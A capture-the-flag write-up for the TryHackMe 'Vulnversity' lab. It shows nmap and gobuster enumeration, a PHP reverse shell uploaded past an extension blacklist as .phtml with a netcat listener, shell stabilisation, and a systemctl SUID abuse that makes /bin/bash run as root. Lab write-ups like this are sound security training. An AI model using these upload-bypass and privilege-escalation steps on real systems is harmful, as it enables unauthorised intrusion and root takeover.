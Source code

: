 # TryHackMe-Vulnversity

>Abdullah Rizwan | 15th September , 08 : 29 PM

#NMAP

```
nmap -sC -sV $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-15 20:30 EDT                                                                              [11/18]
Nmap scan report for 10.10.233.54                                                                                                                   
Host is up (0.17s latency).                                               
Not shown: 994 closed ports                                               
PORT     STATE SERVICE     VERSION                                                                                                                  
21/tcp   open  ftp         vsftpd 3.0.3                                                                                                             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)                                                             
| ssh-hostkey:                                                            
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)                                                                                      
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)                                                                                     
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)                                                                                   
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                              
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)                                                                          
3128/tcp open  http-proxy  Squid http proxy 3.5.12                        
|_http-server-header: squid/3.5.12                                        
|_http-title: ERROR: The requested URL could not be retrieved                                                                                       
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))                                                                                           
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                        
|_http-title: Vuln University                                             
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                                                
                                                                          
Host script results:                 
|_clock-skew: mean: -7h39m58s, deviation: 2h18m34s, median: -8h59m59s                                                                               
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                                                   
| smb-os-discovery:                  
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)                                                                                                           
|   Computer name: vulnuniversity                                                                                                                   
|   NetBIOS computer name: VULNUNIVERSITY\x00                             
|   Domain name: \x00                
|   FQDN: vulnuniversity             
|_  System time: 2020-09-15T11:30:49-04:00                                
| smb-security-mode:                 
|   account_used: guest              
|   authentication_level: user                                            
|   challenge_response: supported      
|_  message_signing: disabled (dangerous, but default)                                                                                              
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled but not required                            
| smb2-time:                         
|   date: 2020-09-15T15:30:50                                             
|_  start_date: N/A                  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                      
Nmap done: 1 IP address (1 host up) scanned in 45.13 seconds                            
````

## Dirbuster

```
gobuster dir -u http://10.10.233.54:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.233.54:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/15 20:40:18 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

`/internal` is a page where we can upload an image and through `/images` we can view it.

## Burpsuite

Now we can not upload a php reverse shell due to it's extension is not allowed so we can make wordlist of possible php extension to by pass blacklist

```
.php
.php3
.php4
.php5
.phphtml
.phpgif
.gifphp
```

`.phtml` is the only extension that is accepted so we are going to change our reverse shell's extension and then upload and set a net cat listener on our terminal 

```
nc -lvp 5555

```

And access the reverse shell on the web server 

```
http://10.10.233.54:3333/internal/uploads/php-reverse-shell.phtml
```

## Stabilize Shell

First get a bash with  `python -c 'import pty; pty.spawn("/bin/bash")'` Then

1. ctrl+z
2. stty raw -echo
3. type fg and press enter x2.

You will get a stabilize shell with auto tab complete and then `export TERM=xterm ` for using clear command.


## Privilege Escalation

Now we have to find a file which has SUID means which can set SUID permissions so we can issue a command to find these files

`find / -perm /4000`

And we will find `sytemctl` which can set SUID 

Now search for systemctl on `GTFOBINS` and slightly modifying the command `chmod +s /bin/bash` it will set SUID on bash to run as root

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Now run the command `bash-p` You will be root.